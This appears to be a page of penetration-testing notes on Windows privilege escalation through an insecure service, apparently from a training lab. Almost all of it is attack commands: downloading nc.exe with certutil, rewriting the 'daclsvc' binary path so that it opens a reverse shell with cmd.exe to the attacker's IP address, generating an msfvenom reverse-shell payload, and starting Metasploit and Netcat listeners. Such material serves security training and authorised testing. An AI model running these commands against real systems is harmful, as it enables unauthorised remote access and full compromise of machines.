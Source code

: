 ```yaml
---
legal-banner: true
---
```


### **Exploiting insecure service with Netcat**

1.  Host the `nc` binary using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/60.png)

    **Note:** Kali has a built-in copy of `nc.exe` located in `/usr/share/windows-resources/binaries/`.
    
2.  Transfer the binary to the target machine using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/nc64.exe nc64.exe`

    ![](../../../../img/Windows-Environment/61.png)
    
3.  To exploit the service, place `nc.exe` in `C:\Temp` and modify the service binary path:  
    `sc config daclsvc binPath= "C:\Temp\nc64.exe [IP-ADDRESS] 443 -e C:\Windows\System32\cmd.exe"`

    ![](../../../../img/Windows-Environment/62.png)
    
4.  On the attacker machine, set up a Netcat listener on port 443, then start the service:  
    `sc start daclsvc`

    ![](../../../../img/Windows-Environment/63.png)

### **Exploiting insecure service with Metasploit**

1.  Generate a reverse shell payload with `msfvenom`:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe-service -o reverse.exe`

    ![](../../../../img/Windows-Environment/64.png)

    **Note:** After creating the reverse shell payload, transfer it to the target machine.
    
2.  Start a listener on the attacking machine with Metasploit:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`

    ![](../../../../img/Windows-Environment/65.png)
    
3.  Alternatively, start a listener with Netcat:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
4.  Modify the service binary path and restart the service:  
    ```
    sc config daclsvc binPath= "C:\Temp\reverse.exe"
    sc stop daclsvc
    sc start daclsvc
    ```
    or `net start daclsvc`

    ![](../../../../img/Windows-Environment/66.png)
